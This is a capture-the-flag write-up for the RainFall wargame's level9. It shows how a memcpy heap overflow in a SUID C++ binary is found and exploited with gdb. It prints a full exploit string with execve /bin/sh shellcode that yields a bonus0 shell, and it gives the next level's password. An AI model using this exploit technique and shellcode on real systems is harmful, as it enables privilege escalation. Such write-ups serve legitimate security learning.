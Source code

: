 # Level 9

## Vulnerability

```memcpy()``` buffer overflow

## Context

We find a binary with owner bonus0 and SUID.
```
level9@RainFall:~$ ls -l
-rwsr-s---+ 1 bonus0 users 6720 Mar  6  2016 level9
```
When run, it does nothing.
```
level9@RainFall:~$ ./level9
level9@RainFall:~$ ./level9 hi
level9@RainFall:~$ ./level9 oh hi
level9@RainFall:~$
```

## Solution

Giving one long argument causes a segfault. We find the maximum input is 108 characters before segfaulting.
```
level9@RainFall:~$ ./level9 $(python -c 'print "A" * 108')
level9@RainFall:~$ ./level9 $(python -c 'print "A" * 109')
Segmentation fault (core dumped)
```

Investigating with gdb, we find this binary is compiled from C++ source code. 5 functions of class ```N``` stand out.
```
(gdb) info functions
...
0x080486f6  N::N(int)
0x080486f6  N::N(int)
0x0804870e  N::setAnnotation(char*)
0x0804873a  N::operator+(N&)
0x0804874e  N::operator-(N&)
...
```
### main() overview

Globally, ```main()``` initializes two instances (```n1``` & ```n2```) of class ```N``` which contain:
1. an annotation (string)
2. a number (int)

Then ```main()``` calls ```setAnnotation()``` which calls ```memcpy()```, copying ```argv[1]``` into a buffer ```n1->annotation```. ```memcpy()``` copies strlen(argv[1]) bytes, meaning we can easily overflow the buffer.

Finally ```main()``` adds ```n1``` + ```n2```.

### Route to solution

Can we simply (like previous levels) write our [malicious code which opens a shell](http://shell-storm.org/shellcode/files/shellcode-827.php) in buffer ```n1->annotation```, then overwrite EIP with the address of our malicious code? Unfortunately, using the following example and [this EIP offset tool](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/), we don't seem to be able to reach and overwrite EIP.
```
(gdb) run Aa0Aa1Aa2Aa3Aa4...
...
Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
```
However, because we created ```n2``` after ```n1``` on the heap, we can use the ```memcpy()``` overflow to overwrite both ```n1``` and ```n2```. So can we write our malicious code in ```n1``` then overwrite ```n2``` with the address of our malicious code, then have ```main()``` call our malicious code for us when it adds? Not quite so simple...

```main()``` accesses ```n1->annotation``` dereferenced twice (a pointer to a pointer to contents), so we overwrite ```n2``` with the address of a pointer to our malicious code.

### Find buffer address

We need to find the address of ```n1```. In gdb, in the main we find the instruction after the call to ```n1->setAnnotation()``` is ```*main+136```. Put a break point at ```*main+136```, and run with a 4 byte argument ("BUFF"). Displaying the memory at %eax we find our argument stored in the buffer at ```0x804a00c```
```
level9@RainFall:~$ gdb -q level9
...
(gdb) disas main
   0x08048677 <+131>:	call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:	mov    0x10(%esp),%eax
...
(gdb) break *main+136
...
(gdb) run "BUFF"
...
(gdb) x/s $eax
0x804a00c:	 "BUFF"
```

### Find n2 offset

We need to find out how many bytes we write in ```n1``` before we overflow into ```n2```?

Lets run the binary with our a pattern string from our favorite [EIP offset tool](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/) and make it segfault.

We can see ```n2``` corresponds to register ```eax``` at time of segfault.
```
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6A
Starting program: /home/user/level9/level9 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6A

Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
(gdb) info register eax
eax            0x41366441	1094083649
```
Lets convert the contents of ```eax``` from hex to ascii with ```xxd```
```
>$ echo 0x41366441 | xxd -r -p | rev
Ad6A
```
Searching for ```Ad6A``` in the pattern string we find it starts at byte 109. This means we can overwrite ```n2``` from byte 109 of our exploit string.

### Build exploit string

So we build our exploit which will be copied to buffer address ```0x804a00c```:
1. address of malicious code (part 2) - ```\x10\xa0\x04\x08```
2. malicious code which opens a shell - ```\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80```
3. buffer until we reach ```n2``` - ```"A" * 76```
4. address of address of malicious code (part 1) - ```\x0c\xa0\04\x08```

```
level9@RainFall:~$ ./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\04\x08"')
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

## Recreate Exploited Binary

As user ```bonus0```, in ```/tmp```, create and compile ```level9_source.cpp```
```
bonus0@RainFall:/tmp$ g++ level9_source.cpp -fno-stack-protector -z execstack -o level9_source
```

Edit permissions including suid, then move the binary to home directory.
```
bonus0@RainFall:/tmp$ chmod u+s level9_source; chmod +wx ~; mv level9_source ~
```

Exit back to user ```level9```, then provide our exploit with updated addresses.
With the same method as above we find the buffer address ```0x0804b008```.
```
bonus0@RainFall:/tmp$ exit
exit
level9@RainFall:~$ /home/user/bonus0/level9_source $(python -c 'print "\x10\xb0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xb0\04\x08"')
$ whoami
bonus0
```
